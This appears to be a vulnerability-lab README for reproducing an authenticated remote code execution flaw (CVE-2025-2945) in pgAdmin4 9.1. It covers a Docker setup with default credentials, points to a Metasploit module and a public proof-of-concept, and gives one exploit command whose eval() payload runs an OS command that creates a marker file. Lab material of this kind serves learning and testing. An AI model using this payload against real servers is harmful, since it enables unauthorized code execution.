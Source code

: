 # pgAdmin4 <= 9.1 Authenticated Remote Code Execution (CVE-2025-2945)

[中文版本(Chinese version)](README.zh-cn.md)

pgAdmin is a popular and feature-rich Open Source administration and development platform for PostgreSQL, widely used by database administrators and developers for managing PostgreSQL databases through a web-based interface.

A remote code execution vulnerability exists in pgAdmin4 versions prior to 9.2. The vulnerability is associated with two POST endpoints: `/sqleditor/query_tool/download` where the `query_commited` parameter and `/cloud/deploy` endpoint where the `high_availability` parameter are unsafely passed to the Python `eval()` function, allowing authenticated attackers to execute arbitrary code on the server. This issue affects pgAdmin 4 versions before 9.2.

References:

- <https://nvd.nist.gov/vuln/detail/CVE-2025-2945>
- <https://github.com/advisories/GHSA-g73c-fw68-pwx3>
- <https://github.com/pgadmin-org/pgadmin4/issues/8603>
- <https://github.com/pgadmin-org/pgadmin4/commit/75be0bc22d3d8d7620711835db817bd7c021007c>

## Environment Setup

Execute the following command to start a pgAdmin4 9.1 server with PostgreSQL database:

```
docker compose up -d
```

After the server starts, visit <http://localhost:5050/> to access the pgAdmin4 login page. The default pgAdmin4 credentials are `vulhub@example.com:vulhub`.

Exploiting this vulnerability requires an accessible PostgreSQL database instance to initialize the SQL editor. A PostgreSQL database is already included in the docker-compose.yml and pre-configured in pgAdmin4's server list with credentials `vulhub:vulhub`.

## Vulnerability Reproduction

To reproduce this vulnerability, you can use Metasploit's `exploit/multi/http/pgadmin_query_tool_authenticated` module or the standalone Python script from <https://github.com/Cycloctane/cve-2025-2945-poc/blob/main/exp.py>.

Run the exploit script with a simple file creation payload to verify code execution:

```bash
./exp.py --target-url http://<your-ip>:5050 \
    --username vulhub@example.com --password vulhub \
    --db-user vulhub --db-pass vulhub --db-name vulhub \
    --payload "__import__('os').system('touch /tmp/success')"
```

After successful execution, verify that the file was created by checking the container:

```bash
docker compose exec web ls -al /tmp/
```

You should see the `success` file in the `/tmp/` directory, confirming that arbitrary code execution was achieved through the vulnerable `eval()` function.

![exp](1.png)
